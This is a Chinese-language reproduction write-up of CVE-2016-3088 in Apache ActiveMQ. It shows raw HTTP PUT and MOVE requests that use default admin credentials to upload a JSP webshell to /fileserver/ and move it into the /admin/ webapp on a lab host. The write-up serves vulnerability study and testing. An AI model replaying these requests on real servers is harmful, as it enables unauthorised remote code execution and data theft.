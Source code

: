 （CVE-2016-3088）ActiveMQ应用漏洞
=================================

一、漏洞简介
------------

ActiveMQ是一款流行的开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。

二、漏洞影响
------------

Apache ActiveMQ 5.x \~ 5.14.0

三、复现过程
------------

漏洞是需要登录之后才可以执行

漏洞利用就是/fileserver/有put上传权限，/admin/有执行权限，可找到绝对路径，使用move移动文件到/admin/

下面就是两步走，先是利用put上传文件到/fileserver/,然后移动到move到admin下面

所有返回为204就代表是成功，有个坑点：不要put同文件名的文件上去

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

ActiveMQ默认开启PUT方法，当fileserver存在时我们可以上传jspwebshell。

![](./.resource/(CVE-2016-3088)ActiveMQ应用漏洞/media/rId24.png)

    PUT /fileserver/shell.jsp HTTP/1.1
    Host: 192.168.197.25:8161
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Authorization: Basic YWRtaW46YWRtaW4=

    shell

利用 MOVE 方法将 Webshell 移入 admin/ 目录

![](./.resource/(CVE-2016-3088)ActiveMQ应用漏洞/media/rId25.png)

    Request Raw:
    MOVE /fileserver/shell.jsp HTTP/1.1
    Destination:file:/data/apache-activemq-5.7.0/webapps/admin/shell.jsp
    Host: 192.168.197.25:8161
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Authorization: Basic YWRtaW46YWRtaW4=
    Content-Length: 17
    Content-Length: 0

    shell

![](./.resource/(CVE-2016-3088)ActiveMQ应用漏洞/media/rId26.png)

